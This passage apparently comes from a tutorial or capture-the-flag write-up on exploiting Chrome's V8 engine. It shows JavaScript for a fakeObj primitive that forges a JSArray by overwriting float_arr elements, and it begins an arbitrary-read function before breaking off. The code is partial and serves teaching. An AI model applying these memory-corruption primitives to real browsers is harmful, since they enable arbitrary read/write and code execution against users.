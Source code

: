 the concept is roughly the same as fake chunk in heap exploits, we want to construct a fake object, in this case its `JSArray` of type floating points. to do this we have to trick the V8 such that a variable will hold an address at the fake object and treat it as an object.

the gist of it is that, later on we will alleviate the fake object's elements to an arbitrary address, accessing the fake object will then dereference the address enabling us able to read/write to it.&#x20;

```javascript
function fakeObj(addr) {
    // continue...
}
```

first, we'll set `obj_arr[0]` to the address where we want to put the fake object at, note that I also preserve the `length` of `FixedArray` just in case. (if you're getting confused here, take a look again at our memory layout above)

```javascript
float_arr[12] = itof(0x4n) + itof(addr << 32n);
```

next, the map of `obj_arr` is still an object, but for good measures, I decided to make sure that the map is indeed an object array map

```javascript
float_arr[13] = itof(ftoi(obj_arr_map) << 32n); // also nullifies the 2nd index of obj_arr
```

next, accessing the element will dereference the address we just put before, since the array is an object type, the V8 will then store variable `fake` as an object. this is the overall gist of the primitive.&#x20;

```javascript
let fake = obj_arr[0];
return fake;
```

### Arbitrary Read

from the diagram before, we're going to craft a fake object within a floating array, so let's setup just that:

```javascript
var arb_rw_arr = [(float_arr_map), 1.2, 1.3, 1.4];
console.log("[*] arb_rw_arr: 0x" + addrOf(arb_rw_arr).toString(16));

function arb_read(addr) {
    if (addr % 2n == 0)
        addr += 1n;
        
    // continue...
}
```

then we'll calculate the offset to our fake object from `arb_rw_arr`'s `JSArray`

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

